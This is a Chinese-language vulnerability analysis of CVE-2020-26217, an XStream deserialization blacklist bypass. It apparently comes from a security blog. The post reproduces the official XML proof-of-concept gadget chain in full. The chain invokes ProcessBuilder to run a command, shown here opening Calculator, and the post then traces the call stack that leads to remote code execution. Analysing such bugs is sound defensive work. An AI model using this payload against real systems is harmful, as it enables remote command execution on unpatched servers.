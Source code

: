 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[xz.aliyun.com\](https://xz.aliyun.com/t/8526)

0x01 漏洞描述
---------

CVE-2020-26217 出现了新的绕过手法，通过一个黑名单之外的 gadget，可以成功绕过之前的补丁造成远程命令执行。包括 1.4.13 在内的所有版本都会受到漏洞的影响（使用了 XStream 官方提供的安全框架的系统将不受本次漏洞影响）。

0x02 风险等级
---------

**严重**

0x03 漏洞详情
---------

PoC 已经在官方放出，如下：

```
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>open</string>
                          <string>-a</string>
                          <string>Calculator</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

演示如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116141241-bbd6d10a-27d2-1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20201116141241-bbd6d10a-27d2-1.gif)

XStream 作为一个支持将 xml 转对象的第三方，一直以来都是存在着被利用的风险，而在没有使用官方安全框架的前提下，补丁就只能通过黑名单来进行防御，所以才有了这次全新 gadget 的绕过，下面针对这一个 gadget 进行一些原理分析。

XStream 在对 map 类型对象进行反序列化的时候，如果 map 对象内存在 entry，自然需要先实例化一个空 map，以及 entry，再将 entry put 到 map 中  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140717-fb14204e-27d1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140717-fb14204e-27d1-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140737-06924a68-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140737-06924a68-27d2-1.png)  
而这次利用的关键就在于这个 entry 的构造，先去看一下实例化后的这个 entry 是什么样子的，其中红框标记的地方为 poc 刻意指定的值，也就是在后续调用栈里需要重点关注的地方，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140756-11d4448a-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140756-11d4448a-27d2-1.png)  
map 在 put entry 的时候，是需要获取 entry 的 hash 的，进而在后续会调用 entry 的 hashCode 函数，那我们去看一下 NativeString 的 hashCode 函数会去做一些什么，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140808-195bf45a-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140808-195bf45a-27d2-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140832-2799f616-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140832-2799f616-27d2-1.png)  
可以看到经过两个调用栈之后，会去调用 value 值的 toString 函数，即 Base64Data 类的 toString，调用 toString 自然就会调用 get 函数，看一下 Base64Data.get，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140848-312a72b4-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140848-312a72b4-27d2-1.png)  
get 函数生成了一个空的 ByteArrayOutputStreamEx 对象并将自身的 dataHandler 的 datasource 作为参数，传给这个对象的 readFrom 函数，继而调用了 datasource 的 read 函数，即 SequenceInputStream.read，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140859-3784918a-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140859-3784918a-27d2-1.png)  
在 SequenceInputStream.read 函数中会循环调用每个 Enumeration 的 nextElement 函数，即 MultiUIDefaults$MultiUIDefaultsEnumerator.nextElement，继而去调用对应 key 的 next 函数进行迭代，而这个时候的迭代器是精心构造的 FilterIterator，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140913-402c154c-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140913-402c154c-27d2-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140924-46c4b13e-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140924-46c4b13e-27d2-1.png)  
在调用 FilterIterator 进行迭代的时候，会调用恶意构造的 ImageIO$ContainsFilter 的 filter 方法，从而进行了反射调用，而反射的 method、param 和 class 都是 ContainsFilter 的成员对象，攻击者可控，从而造成了 rce，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140935-4d07185c-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140935-4d07185c-27d2-1.png)  
调用链比较长在最后附上调用栈，  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20201116140948-54c401ae-27d2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201116140948-54c401ae-27d2-1.png)

0x04 参考链接
---------

[https://x-stream.github.io/CVE-2020-26217.html](https://x-stream.github.io/CVE-2020-26217.html)
